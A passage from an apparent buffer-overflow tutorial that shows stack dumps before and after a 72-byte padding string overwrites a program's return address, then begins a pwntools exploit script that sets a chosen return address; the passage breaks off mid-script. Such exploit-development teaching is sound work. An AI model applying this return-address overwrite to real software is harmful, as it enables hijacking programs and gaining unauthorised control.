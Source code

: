 The stack before calling scanf looks like:

    0x007fffffffdc20│+0x0000: 0x0000000000000002   ← $rsp
    0x007fffffffdc28│+0x0008: 0x00000000403c74
    0x007fffffffdc30│+0x0010: 0x0000000000000000
    0x007fffffffdc38│+0x0018: 0x00000000400530
    0x007fffffffdc40│+0x0020: 0x00000000403c00
    0x007fffffffdc48│+0x0028: 0x00000000403c90
    0x007fffffffdc50│+0x0030: 0x0000000000000000
    0x007fffffffdc58│+0x0038: 0x000000004d2000
    0x007fffffffdc60│+0x0040: 0x00000000403c00     ← $rbp
    0x007fffffffdc68│+0x0048: 0x00000000403505     →  <__libc_start_main+3349>
    0x007fffffffdc70│+0x0050: 0x0000000000000000
    0x007fffffffdc78│+0x0058: 0x0000000200000000

The return address (place where the program goes to when the main function is finished) is __libc_start_main+3349.

The stack after calling scanf and entering the string

    python -c "print('A'*72+'BCDEFGHI)"

looks like:

    0x007fffffffdc20│+0x0000: "AAAAAAAA"     ← $rs
    0x007fffffffdc28│+0x0008: "AAAAAAAA"
    0x007fffffffdc30│+0x0010: "AAAAAAAA"
    0x007fffffffdc38│+0x0018: "AAAAAAAA"
    0x007fffffffdc40│+0x0020: "AAAAAAAA"
    0x007fffffffdc48│+0x0028: "AAAAAAAA"
    0x007fffffffdc50│+0x0030: "AAAAAAAA"
    0x007fffffffdc58│+0x0038: "AAAAAAAA"
    0x007fffffffdc60│+0x0040: "AAAAAAAA"     ← $rbp
    0x007fffffffdc68│+0x0048: "BCDEFGHI"     ← 0x4948474645444342
    0x007fffffffdc70│+0x0050: 0x0000000000000000
    0x007fffffffdc78│+0x0058: 0x0000000200000000

The characters "BCDEFGHI" have overwritten the return address. This means that after executing the function main, the program would try to return to memory address 0x4948474645444342. Since this is not possible, we get a segmentation error. But at the same time, we know that we can force the program to go to executable instructions of our choosing.

### A first exploit program

To be able to insert characters of our choosing into the stack, and not only readable characters, we will write a little python script. It will not get the price of the most beautiful baby of the year, but it will do what it is made for: insert values in the stack.

    #! /usr/bin/env python
    
    from pwn import *
    import time
    
    payload  = ( 'A' * 72 ).encode()
    payload += p64( 0x0000000000401805 )
    